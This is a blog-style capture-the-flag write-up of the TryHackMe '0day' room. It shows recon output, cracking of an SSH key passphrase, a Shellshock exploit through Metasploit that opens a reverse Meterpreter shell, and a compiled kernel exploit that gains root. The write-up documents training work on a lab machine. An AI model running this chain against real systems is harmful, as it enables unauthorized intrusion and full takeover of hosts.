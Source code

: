 ```yaml
---
title : 0day - Writeup
---
```


_**Nov 10, 2020**_

[0day](https://tryhackme.com/room/0day) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
Nmap scan report for 10.10.86.209
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

```
bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

________________________________________________

.htpasswd               [Status: 403, Size: 288, Words: 21, Lines: 11]
.hta                    [Status: 403, Size: 283, Words: 21, Lines: 11]
.htaccess               [Status: 403, Size: 288, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 311, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 312, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin                 [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 309, Words: 20, Lines: 10]
img                     [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43]
js                      [Status: 301, Size: 308, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 38, Words: 7, Lines: 2]
secret                  [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 292, Words: 21, Lines: 11]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10]
```

`/backup/` have a SSH private key, Let's crack it for a password.

```
bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
```
This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :

```
bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.86.209
+ Target Hostname:    10.10.86.209
+ Target Port:        80
+ Start Time:         2020-11-10 15:54:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
Nikto was able to find a vulnerability named `Shellshock - CVE-2014-6271`.

## Shellshock :

Also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014. 
Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests. 

#### Specific exploitation vectors :

* CGI-based web server, Python, Perl
* OpenSSH server
* DHCP clients
* Qmail server
* IBM HMC restricted shell
* Vulnerable since version 1.03 of Bash released in September 1989

## Shellshock Exploitation :

I searched for it in metasploit and found 11 modules, but this one matches what we need :

```
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
```
This is what we need to configure :

```
> set LHOST tun0
> set RHOSTS 10.10.86.209
> set TARGETURI /cgi-bin/test.cgi
```
Type exploit and wait for it :

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.86.209
[*] Meterpreter session 1 opened (10.8.14.157:4444 -> 10.10.86.209:55383) at 2020-11-10 16:09:04 -0500

meterpreter >
```

## Privilege Escalation :

So i did a few enumeration and i found out that this machine is running an outdated kernel :o

```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.

I uploaded the exploit to the machine via my machine and compiled it :

```
www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
www-data@ubuntu:/tmp$ ./kec 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
```


<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
